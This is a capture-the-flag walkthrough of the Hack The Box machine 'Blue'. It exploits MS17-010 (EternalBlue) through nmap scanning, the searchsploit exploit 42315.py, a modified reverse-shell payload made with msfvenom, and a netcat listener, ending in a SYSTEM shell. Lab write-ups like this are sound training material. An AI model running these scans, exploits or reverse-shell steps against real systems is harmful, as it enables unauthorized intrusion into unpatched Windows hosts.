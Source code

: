 <p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/86ee30d6-5fc7-4c3f-8844-d35480574798">
</p>

<h1 align="center">Blue</h1>

<h2>Intro</h2>

<p>In this walkthrough we are going to talk about the machine <strong>Blue</strong>, it's an easy machine. We are going to me exploiting MS17-010, or Eternal Blue.
EternalBlue is a cyberattack exploit developed by the NSA that targets a vulnerability in Microsoft's SMB protocol. Its purpose is to gain unauthorized access to Windows computers. It had a significant impact, being used in major cyberattacks like WannaCry and NotPetya, causing widespread disruption and damage globally.
You can get more info about it here:
</p>

<a href="https://github.com/blog/eternalblue-nsa-developed-exploit-just-wont-die" style="text-align: center; display: block;">
  EternalBlue Exploit: What It Is And How It Works
</a>


<h2>Walkthrough</h2>

<h3>Recon and ennumeration</h3>

<p>As always we start by doing a fast TCP SYN scan with nmap</p>

<pre>nmap -p- -v -sS -Pn -f -n --min-rate 5000 --open 10.10.10.40 -oG allPorts</pre>

<ul>
  <li><strong>-p-</strong>: we are specifying that we want as many ports as possible to be scanned<li>
  <li><strong>-v</strong>: gives me a more detailed output during the scan</li>
  <li><strong>-sS</strong>: here we specify that we are doing a TCP SYN scan, it's faster than a full TCP scan, at the moment we just want to check the ports</li>
  <li><strong>-Pn</strong>: this flag is set to disable host discovery. It is used when the target does not respond to pings</li>
  <li><strong>-n</strong>: disables DNS resolution, this flag gives us more speed in the scan by avoiding resolving hostname, we will check that later</li>
  <li><strong>--min-rate 5000</strong>: with this flag, we are setting the minimum packet sending rate to 5000 packets per second, it makes the scan faster</li>
  <li><strong>--open</strong>: here we are specifying that we only want to show in the scan result the ports that are open</li>
  <li><strong>-oG allPorts</strong>: I am saving the scan result in a grepeable file called allPorts</li>
</ul>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/7924a960-3d1d-4f37-bfb5-1b8408b72992">
</p>

<p>We can see that port 445, we are going to do a more thorough scan of the ports to see if we find anything else but, at this point we should directly throw the script that shows if it is vulnerable to MS17-010. Whenever we look at port 445 and see that the system is a Windows XP to Windows Server 2016 system we should check if it is vulnerable to EternalBlue.</p>

<pre>nmap -p135,139,445 -v -Pn -n --min-rate 5000 --open -sCV 10.10.10.40 -oN targeted</pre>

<ul>
  <li><strong>-sC</strong>: It runs default scripts to get more info about our target. Uses common scripts for common vulns</li>
  <li><strong>-sV</strong>: this flag will return the version of the service that is on the open port</li>
  <li><strong>-oN targeted</strong>: this flag outputs the scan on a file named targeted. has a more comprehensible result</li>
</ul>

<p>
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/1d76b40b-5bb6-4735-9674-b4c0cdc92a40">
</p>

<pre>nmap -p445 --script smb-vuln-ms17-010 10.10.10.40</pre>

<ul>
  <li><strong>--script</strong>:  is used to specify Nmap scripts</li>
</ul>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/d1838ef7-7f55-4a1a-8297-af5ceca9dda2">
</p>

<p>Yep, it's vulnerable to MS17-010!</p>

<h2>Getting inside</h2>

<p>Here we already know that it's vulnerable to EternalBlue, so let's use <strong>searchsploit</strong> to check if Kali has something to deal with it (Kali obviously has tools for it 😄)</p>

<pre>searchsploit ms17-010</pre>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/b54562df-0d78-47e9-a4d5-50bbb31d6bc1">
</p>

<p>We can see a few scripts, the one that has helped me is the script 42315.py. So in the directory we are working in, we do the following to bring us the script</p>

<pre>searchsploit -m windows/remote/42315.py</pre>

<ul>
  <li><strong>-m</strong>: this flag will tell searchsploit to move/copy the script to the current directory</li>
</ul>

<p><strong>IMPORTANT:</strong> I've got some problems with this script becouse it's quite old and it's using Python 2.7, here it is what I've done to make it work:</p>

<ol>
  <li>
    <p>sudo apt update</p>
    <p>sudo apt install build-essential libssl-dev libffi-dev python2 python2-dev</p>
  </li>
  <li>
    <p>curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py</p>
    <p>sudo python2.7 get-pip.py</p>
  </li>
  <li>
    <p>git clone https://github.com/SecureAuthCorp/impacket.git</p>
    <p>cd impacket</p>
  </li>
  <li>git checkout impacket_0_9_22</li>
  <li>sudo pip2 install -r requirements.txt</li>
  <li>sudo python2.7 setup.py install</li>
  <li>pip install pyasn1 pycryptodomex</li>
</ol>

<p>You can also try to clone mysmb.py instead of the whole impacket git, but this is how it worked for me</p>

<p><strong>ALSO IMPORTANT:</strong> I was also looking at the script code and, you have to add or uncomment the two lines below the lines I have added in the smb_pwn() function, this function is just uploading a .txt right now, what we are looking for is to return a reverse shell, so let's prepare it with msfvenom</p>

<p aling="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/ad2d380a-7c08-4554-86f5-b6e3013e921b">
</p>

<p aling="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/392d1791-9b40-4a56-b08d-924d72eb7bee">
</p>

<p aling="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/946a71e5-1003-46ca-ab63-e58ee6708104">
</p>

<p>And now if we prepare a listener with <strong>Netcat</strong> and execute the python script we are in! Also we are authority\system already! 😄</p>

<pre>nc -lnvp <PORTOFYOURCHOICE></pre>

<pre>python2 42315.py 10.10.10.40</pre>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/c62aaea8-fd4b-41b1-a515-292594b428bc">
</p>

<p>So we can get both flags!</p>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/de58a251-53c5-4a43-83b4-fca57711af26">
</p>

<p>This machine has been interesting to make, I have learned something more about EternalBlue. Be nice!</p>
